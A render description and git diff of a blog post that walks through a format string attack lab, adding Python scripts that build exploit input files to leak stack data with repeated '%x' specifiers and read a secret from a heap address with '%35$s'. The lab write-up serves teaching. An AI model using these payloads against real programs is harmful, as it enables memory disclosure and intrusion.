

Before and after one commit to iukadike/blog, a Jekyll site: the page built from _posts/2023-09-10-format-string-attack.md, in a window 1280 px wide and 1400 px high, scrolled down 15816 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 16446 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
update content

````diff
--- a/_posts/2023-09-10-format-string-attack.md
+++ b/_posts/2023-09-10-format-string-attack.md
@@ -753,6 +753,62 @@ A method I have taken to solve this problem is to place the 64-bit addresses aft
 
 #### Printing Out Stack Data
 
-When we use the "%x" format specifier, it instructs the program to access a memoey location and print out the hex value of the contents in that memory location. For this task we would need to build our input to the server such that when the values in memory are printed, we can tell the offset from the beginning of the stack.
+When we use the "%x" format specifier, it instructs the program to access a memory location and print out the hex value of the contents in that memory location. For this task we would need to build our input to the server such that when the values in memory are printed, we can tell the offset from the beginning of the stack.
 
-Thus our input will start with a value we know i.e. AAAA = \x41\x41\x41\x41 and will be made up of an increasing number of "%x" until we are able to see the value \x41\x41\x41\x41 printed out.
+Thus our input will start with a value we know i.e. AAAAAAAA = \x41\x41\x41\x41\x41\x41\x41\x41 and will be made up of an increasing number of "%x" until we are able to see the value \x41\x41\x41\x41 printed out.
+
+```python
+#!/usr/bin/python3
+import sys
+
+# Start input with a content we can easily recognize
+content = ("AAAAAAAA").encode('latin-1')
+
+# Append format specifiers
+content += ("_%x" * 40).encode('latin-1')
+
+# Append a newline
+content += ("\n").encode('latin-1')
+
+
+# Write the content to badfile
+with open('badfile', 'wb') as f:
+  print(f"writing {len(content)} bytes to badfile...")
+  f.write(content)
+```
+
+**image**
+
+After a number of trial and error, I was able to determine that the offset of our input from the beginning of the stack is 34. Thus, it will take 34 %x to print out the first eight bytes of my input.
+
+
+#### Printing Out Heap Data
+
+There is a secret message that is stored on the heap when the program runs. We know that the memory address of this secret message on the heap is 0x0000555555556008. In order to print out the value stored in this memory address, while constructing our format string, we will have to put 0x0000555555556008 after all the format specifiers.
+
+Our initial code that achieves this is:
+
+```python
+#!/usr/bin/python3
+import sys
+
+secret = 0x0000555555556008
+
+# Start the string with the format specifiers
+# I padded zeros to keep the lenght at 8-bytes
+content = ("%00035$s").encode('latin-1')
+
+# Append the address
+content += (secret).to_bytes(8,byteorder='little')
+
+# Append a newline
+content += ("\n").encode('latin-1')
+
+
+# Write the content to badfile
+with open('badfile', 'wb') as f:
+  print(f"writing {len(content)} bytes to badfile...")
+  f.write(content)
+```
+
+**image**
````
